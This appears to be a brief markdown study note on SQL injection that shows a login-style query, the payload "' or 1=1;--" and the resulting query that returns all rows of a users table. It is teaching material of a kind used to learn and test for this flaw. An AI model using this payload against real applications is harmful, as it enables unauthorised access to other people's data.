 ```yaml
---
tags:
- sqlInjection
---
```


# SQL injection return all items in the table

Original SQL
```sql
SELECT * FROM users WHERE username = 'Tostadas'
```

Payload   
```sql  
' or 1=1;--  
```

Result SQL
```sql
SELECT * FROM users WHERE username = '' or 1=1;--'
```